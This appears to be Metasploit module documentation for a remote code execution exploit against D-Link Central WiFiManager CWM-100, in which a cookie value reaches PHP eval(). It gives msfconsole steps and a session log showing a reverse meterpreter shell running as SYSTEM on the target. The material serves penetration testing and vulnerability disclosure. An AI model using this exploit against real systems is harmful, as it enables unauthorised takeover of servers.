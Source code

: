 ## Vulnerable Application

### Introduction

This module exploits a PHP code injection vulnerability in D-Link Central WiFiManager CWM‑100.
The vulnerability exists because a user-controlled cookie is passed to the `eval()` function without being
sanitized.

Because the HTTP server runs in the context of a privileged user (with a default installation),
successful exploitation results in code execution as nt_authority\system.

a vulnerable version is available at DLink's vulnerability announcement:
- [The announcement](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10117)
- [ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip](ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip)

## Verification Steps

1. Start `msfconsole`
2. Do: `use windows/http/dlink_central_wifimanager_rce`
3. Do: `set RHOSTS [RHOSTS]`
4. Check the payload options: `show options`
5. Do: `exploit`
6. Verify that you get a shell / meterpreter / that whatever payload you used was executed

## Options

No additional options

## Scenarios

### CWM-100 v1.03

#### Getting a meterpreter session

```
msf5 exploit(windows/http/dlink_central_wifimanager_rce) > 
msf5 exploit(windows/http/dlink_central_wifimanager_rce) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (38288 bytes) to 192.168.1.223
[*] Meterpreter session 1 opened (192.168.1.222:4444 -> 192.168.1.223:1783) at 2020-08-13 14:51:09 +0200

meterpreter > sysinfo
Computer    : REVM-PC
OS          : Windows NT REVM-PC 6.1 build 7601 (Windows 7 Professional N Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter > getuid 
Server username: SYSTEM (0)
meterpreter > pwd
C:\Program Files (x86)\D-Link\Central WifiManager\web
meterpreter > ls
Listing: C:\Program Files (x86)\D-Link\Central WifiManager\web
==============================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100666/rw-rw-rw-  177     fil   2014-09-16 16:19:18 +0200  .htaccess
100666/rw-rw-rw-  138884  fil   2016-01-28 13:36:32 +0100  AP_Installation_utility_for_cwm.zip
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:25 +0200  CapLoginStyle
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:25 +0200  Common
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:45 +0200  Conf
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:25 +0200  DBBackup
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:44 +0200  Lang
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:26 +0200  Lib
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:45 +0200  Public
100666/rw-rw-rw-  256     fil   2014-09-16 16:19:18 +0200  README.txt
40777/rwxrwxrwx   0       dir   2020-08-13 13:02:13 +0200  Runtime
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:27 +0200  ThinkPHP
40777/rwxrwxrwx   0       dir   2020-08-13 12:50:26 +0200  Tpl
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:38 +0200  captivalportal
40777/rwxrwxrwx   4096    dir   2020-08-13 12:50:36 +0200  ckeditor
100666/rw-rw-rw-  15086   fil   2014-09-16 16:19:18 +0200  favicon.ico
100666/rw-rw-rw-  158     fil   2014-09-16 16:19:18 +0200  index.php
100666/rw-rw-rw-  122     fil   2015-10-29 14:17:48 +0100  redrect.php
100666/rw-rw-rw-  211     fil   2014-09-16 16:19:18 +0200  robots.txt
```
